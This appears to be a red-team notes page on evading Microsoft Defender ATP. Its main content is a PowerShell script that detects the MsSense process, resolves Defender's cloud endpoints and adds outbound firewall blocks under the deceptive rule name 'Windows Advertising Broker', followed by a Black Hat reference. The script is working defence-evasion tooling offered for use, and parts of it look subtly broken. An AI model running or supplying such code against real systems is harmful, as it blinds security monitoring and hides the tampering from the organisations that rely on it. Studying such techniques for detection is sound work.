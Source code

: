 # Firewalls

```powershell
# Define Cloud Security Vendor Address
# Windows Defender ATP

$MSATP1 = "securitycenter.windows.com"
$MSATP2 = "winatp-gw-cus.microsoft.com"
$MSATP3 = "winatp-gw-eus.microsoft.com"
$MSATP4 = "winatp-gw-weu.microsoft.com"
$MSATP5 = "winatp-gw-neu.microsoft.com"
$MSATP6 = "us.vortex-win.data.microsoft.com"
$MSATP7 = "eu.vortex-win.data.microsoft.com"
$MSATP8 = "psapp.microsoft.com"
$MSATP9 = "psappeu.microsoft.com"
$MSATPURLs = $MSATP1,$MSATP2,$MSATP3,$MSATP4,$MSATP5,$MSATP6,$MSATP7,$MSATP8,$MSATP9

# Checking for Behavioural Analysis AV security product processes and adding outbound FW blocks
Write-Output ("[*] Checking for Behavioural Analytics AV security product processes and adding outbound firewall block rules" + "`n")
[CmdletBinding()]
$processnames = Get-Process | Select-Object ProcessName
Foreach ($ps in $processnames) {
    if ($ps.ProcessName -like "*MsSense*") {
        Write-Output ("[*] Defender ATP process " + $ps.ProcessName + " is running." + " Resolving ATP FQDN IP's and blocking outbound connections.")
        $MSATPCouldIPs = $MSATPURLs | foreach {[System.Net.Dns]::GetHostAddresses($_)} | Select-Object -ExpandProperty IPAddressToString
        Foreach-Object {
            New-NetFirewallRule -DisplayName "Windows Advertising Broker" -Direction Outbound -Action Block -RemoteAddress "$_" -Profile Any
            Write-Host "$_ - Outbound Firewall Block Was Added: $?"
        }
    }
}
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Helpers/Evasion/Detection/Security Vendors/Windows/Microsoft]]

### Blackhat

- [Blackhat: Red Team Techniques for Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)